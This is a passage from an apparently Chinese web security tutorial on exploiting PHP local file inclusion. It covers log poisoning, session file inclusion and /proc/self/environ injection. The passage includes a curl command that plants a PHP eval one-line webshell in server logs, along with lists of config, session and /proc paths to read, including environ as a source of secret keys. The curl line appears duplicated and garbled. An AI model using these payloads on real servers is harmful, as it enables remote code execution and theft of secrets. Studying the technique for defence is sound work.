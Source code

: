    日志文件在用户安装目录logs目录下。以我的安装路径为例`/usr/local/nginx`，那我的日志目录就是在`/usr/local/nginx/logs`里。

**web中间件默认配置**

1. **apache+linux 默认配置文件**

   ```
   /etc/httpd/conf/httpd.conf
   index.php?page=/etc/init.d/httpd
   ```

2. **IIS6.0+win2003 配置文件**

   ```
   C:/Windows/system32/inetsrv/metabase.xml
   ```

3.  **IIS7.0+WIN 配置文件**

   ```
   C:\Windows\System32\inetsrv\config\applicationHost.config
   ```

**curl 构造一句话，写入日志文件测试记录**

```
curl -v "http://127.0.0.1/php/1.php?page=<?php @eval($_POST\[123\]);?>"?page=<?php @eval($_POST\[123\]);?>"
```

### 包含session

可以先尝试包含到session文件，再根据session文件内容寻找可控变量，再构造payload插入到文件中，最后包含即可。

**前提**

- 找到Session内的可控变量
- Session文件可读写，并且知道存储路径

session常见存储路径：

```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
session文件格式： sess_[phpsessid] ，而 phpsessid 在发送的请求的 cookie 字段中可以看到。
```

### 包含/pros/self/environ

`proc/self/environ`中会保存`user-agent`头，如果在`user-agent`中插入php代码，则php代码会被写入到environ中，之后再包含它，即可。

利用条件：

- php以cgi方式运行，这样environ才会保持UA头。
- environ文件存储位置已知，且environ文件可读。

```
- /proc/cpuinfo：CPU 的信息 (型号, 家族, 缓存大小等) 
- /proc/meminfo：物理内存、交换空间等的信息 
- /proc/mounts：已加载的文件系统的列表 
- /proc/devices：可用设备的列表 
- /proc/filesystems：被支持的文件系统 
- /proc/modules：已加载的模块 
- /proc/version：内核版本 

- /proc/[pid]/cmdline：系统启动时输入的内核命令行参数。
- /proc/[pid]/cwd：通过cwd命令可以直接跳转到当前目录。
- /proc/[pid]/environ：环境变量中可能存在secret_key，这时也可以通过environ进行读取。

上述路径中的PID是需要填写的进程号，当然我们不知道，但这里我们可以用 **self** 来表示我们自己现在正在用的进程。
```
